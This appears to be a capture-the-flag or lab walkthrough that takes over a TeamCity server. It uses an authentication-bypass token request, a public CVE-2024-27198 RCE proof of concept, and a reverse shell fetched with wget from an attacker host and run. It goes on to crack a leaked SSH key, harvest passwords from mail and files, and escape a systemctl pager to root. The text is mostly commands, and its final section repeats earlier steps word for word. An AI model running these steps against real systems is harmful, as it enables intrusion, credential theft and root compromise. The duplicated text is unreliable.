We start by identifying the version of the TeamCity service on port 80 as version 2023.05.4. This version has many vulnerability POCs available online.
 I am not sure what the intended route was in this lab for the initial access, but I will detail the one that I took. First, we enable debugging on the server. curl -s -X POST 'http://teams.onlyrands.com/any?jsp=/app/rest/users/id:1/tokens/new-token;.jsp' | xml_pp  TOKEN=token_value curl -X POST 'http://teams.onlyrands.com/admin/dataDir.html?action=edit&fileName=config%2Finternal.properties&content=rest.debug.processes.enable=true' -H "Authorization: Bearer $TOKEN" We then use this POC: https://github.com/W01fh4cker/CVE-2024-27198-RCE/tree/main and obtain RCE.
python3 CVE-2024-27198-RCE.py -t http://teams.onlyrands.com  We start a listener, transfer a bash reverse shell and execute it using our RCE to obtain a reverse shell connection. rlwrap nc -lvnp 80  wget http://192.168.45.239/shell chmod +x shell ./shell  We then enumerate the files in the Git user's home directory using our reverse shell. We find Git repositories for the four users who are part of the freelance group on the machine. After enumerating the Git logs, we notice that the SSH key of user marcot was mistakenly pushed and then removed. We save it locally and crack its password. We can now use the password of the SSH key as the password for user marcot and login via SSH. git log  git show 856f7c45f504b8f37593a2fff99c59e00a601e6e ssh2john key > test
john test --wordlist=/usr/share/wordlists/rockyou.txt
john test --show

ssh marcot@192.168.229.91

We then read his emails found in the /var/mail directory and find the password for user matthewa.
cd /var/mail
cat marcot

We switch to user matthewa using su. We find credentials for user briand in a file in the home directory.
su matthewa
cat .~

Again, we switch users using su. We enumerate our sudo permissions and find we can check the TeamCity server status using systemctl.
This is not secure, as we can easily break out of the spawned pager. We do so and obtain a root shell.
sudo -l
sudo /usr/bin/systemctl status teamcity-server.service
!sh

ssh2john key > test
john test --wordlist=/usr/share/wordlists/rockyou.txt
john test --show

ssh marcot@192.168.229.91

We then read his emails found in the /var/mail directory and find the password for user matthewa.
cd /var/mail
cat marcot

We switch to user matthewa using su. We find credentials for user briand in a file in the home directory.
su matthewa
cat .~

Again, we switch users using su. We enumerate our sudo permissions and find we can check the TeamCity server status using systemctl.
This is not secure, as we can easily break out of the spawned pager. We do so and obtain a root shell.
sudo -l
sudo /usr/bin/systemctl status teamcity-server.service
!sh
